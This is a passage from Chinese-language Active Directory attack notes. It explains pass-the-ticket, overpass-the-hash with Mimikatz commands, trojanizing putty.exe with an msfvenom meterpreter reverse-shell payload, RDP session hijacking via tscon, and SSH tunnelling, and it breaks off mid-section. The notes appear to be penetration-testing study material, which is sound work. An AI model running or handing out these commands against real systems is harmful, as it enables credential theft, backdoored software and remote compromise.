         # 2. (无需高权限) 将导出的票据注入当前会话
        kerberos::ptt ticket.kirbi
        ```
        
    - **验证 (Verification)**: 使用 `klist` 命令查看当前会话中已加载的票据。
- **传递密钥 (Pass-the-Key) / 哈希传递升级版 (Overpass-the-Hash, OPtH)**：
    
    - **基本原理 (Fundamentals)**: Kerberos TGT 请求的初始验证器是使用用户密码衍生的长期密钥（如 RC4, AES128, AES256 密钥）加密的时间戳。拥有这些密钥等同于拥有密码。
    - **OPtH**: RC4 密钥与用户的 NTLM 哈希相同。因此，如果域支持 RC4 算法，拥有 NTLM 哈希就可以直接请求 TGT，这种技术被称为 Overpass-the-Hash。
    - **执行攻击 (Execution)**: Mimikatz 的 `sekurlsa::pth` 命令同样支持使用 Kerberos 密钥。
        
        PowerShell
        
        ```
        # 使用 RC4 密钥 (NTLM 哈希)
        sekurlsa::pth /user:admin /domain:corp /rc4:deadbeef... /run:cmd.exe
        
        # 使用 AES256 密钥
        sekurlsa::pth /user:admin /domain:corp /aes256:deadbeef... /run:cmd.exe
        ```
        

---

#### 滥用用户及环境行为 (Abusing User and Environmental Behavior)

- **利用可写共享 (Exploiting Writable Shares)**：
    
    - **攻击原理 (Attack Principle)**: 若攻击者对用户经常访问的网络共享具有写权限，可以替换或后门化其中的合法文件（如脚本、可执行文件），在用户下次执行时触发恶意载荷。
    - **后门植入 .EXE 文件 (Backdooring .EXE Files)**: 使用 `msfvenom` 可以将 payload 注入到一个现有的可执行文件中，同时尽量保持其原有功能。
        
        Bash
        
        ```
        msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o putty_backdoored.exe
        ```
        
- **远程桌面会话劫持 (RDP Session Hijacking)**：
    
    - **攻击原理 (Attack Principle)**: 在 Windows Server 2016 及更早版本上，拥有 `SYSTEM` 权限的攻击者可以无缝接管另一个用户（即使是高权限用户）的已断开连接（Disconnected）的 RDP 会话，而无需输入密码。
    - **执行步骤 (Execution Steps)**:
        1. 获取 `SYSTEM` 权限的 shell（如 `psexec -s -i cmd.exe`）。
        2. 使用 `query user` 命令列出当前所有会话及其 ID。
        3. 使用 `tscon.exe <target_session_id>` 命令接管目标会话。

---

#### 网络隧道与端口转发 (Network Tunneling and Port Forwarding)

- **概述 (Overview)**: 当直接网络路径被防火墙或网络分段阻断时，可以使用已控主机作为跳板，建立隧道来转发流量。
- **使用 SSH (Using SSH)**: Windows 系统现已内置 OpenSSH 客户端，使其成为一种可行的隧道工具。
    - **本地端口转发 (`-L`)**: 将**本地**（攻击机）端口上的流量通过 SSH 隧道转发到**远程**（SSH 服务器）网络中的一个目标。常用于将远程服务映射到本地访问。
        